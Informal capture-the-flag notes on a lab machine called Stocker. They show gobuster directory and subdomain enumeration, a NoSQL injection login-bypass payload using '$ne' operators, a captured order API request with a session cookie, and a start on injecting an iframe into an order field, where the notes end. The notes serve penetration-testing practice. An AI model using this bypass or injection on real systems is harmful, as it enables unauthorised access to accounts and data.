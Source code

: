 ping 10.10.11.196

gobuster dir -u http://stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2/3-medium.txt -t 50


PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/06/20 02:36:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4976 / 4990 (99.72%)
===============================================================
2023/06/20 02:36:46 Finished
```

![](20230620023900.png)

we got a page.
getting the login req


things to do - sqlmap and hydra
sqlmap did not work
hydra will be used as last resort

but on sending a json file 
with contetn type application/json
and follwoing paramters
`{"username":{"$ne":"admin"}, "password":{"$ne":"pass"}}`

we got a response back as

`Found. Redirecting to <a href="/stock">`

![](20230620024939.png)

we got 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 629
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Ai_AUVSci1pzGB1WsvBX2VdC-qIX4Wptk.YPLO7UnVGBENiyiZRKjUGFPKNbr%2FUfpMQ0r25%2FlfpfE
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a8f","title":"Bin","description":"It's a rubbish bin.","image":"bin.jpg","price":76,"currentStock":15,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```

on submission of the kart items

when we change thte title field and ad dan iframe to it
it shows 

![](20230620030230.png)

